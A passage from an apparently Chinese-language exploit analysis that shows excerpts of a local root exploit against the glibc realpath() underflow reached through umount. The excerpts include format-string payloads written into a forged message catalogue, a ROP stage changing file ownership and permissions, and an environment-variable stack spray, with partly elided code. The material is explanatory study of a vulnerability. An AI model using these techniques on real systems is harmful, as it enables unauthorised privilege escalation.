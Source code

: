 ```c
          );
          fprintf(stderr, "Using escalation string %s", escalationString);

          result=writeMessageCatalogue(
              secondPhaseCataloguePathname,
              (char*[]){
                  "%s: mountpoint not found",
                  "%s: not mounted",
                  "%s: target is busy\n        (In some cases useful info about processes that\n         use the device is found by lsof(8) or fuser(1).)"
              },
              (char*[]){
                  escalationString,
                  "BBBB5678%3$s\n",
                  "BBBBABCD%s\n"},
              3);
          break;
        case 2:     // 阶段 2，修改了参数 “LANGUAGE”，从而触发了 util-linux.mo 的重新读入，然后将新的格式化字符串写入到另一个 util-linux.mo 中
        case 3:     // 阶段 3，读取 umount 的输出以避免阻塞进程，同时等待 ROP 执行 fchown/fchmod 修改权限和所有者，最后退出
// Wait for pipe connection and output any result from mount.
          readDataLength=0;
          break;
          [...]
      }
      if(moveLength) {
        memmove(readBuffer, readBuffer+moveLength, readDataLength-moveLength);
        readDataLength-=moveLength;
      }
    }
  }

attemptEscalationCleanup:
  [...]
  return(escalationSuccess);
}
```

通过栈喷射在内存中放置大量的 "AANGUAGE=X.X" 环境变量，这些变量位于栈的上部，包含了大量的指针。当运行 umount 时，很可能会调用到 `realpath()` 并造成下溢。umount 调用 `setlocale` 设置 locale，接着调用 `realpath()` 检查路径的过程如下：

```c
/*
 * Check path -- non-root user should not be able to resolve path which is
 * unreadable for him.
 */
static char *sanitize_path(const char *path)
{
    [...]
	p = canonicalize_path_restricted(path);	// 该函数会调用 realpath()，并返回绝对地址
    [...]
	return p;
}

int main(int argc, char **argv)
{
	[...]
	setlocale(LC_ALL, "");	// 设置 locale，LC_ALL 变量的值会覆盖掉 LANG 和所有 LC_* 变量的值
	[...]
	if (all) {
		[...]
	} else if (argc < 1) {
		[...]
	} else if (alltargets) {
```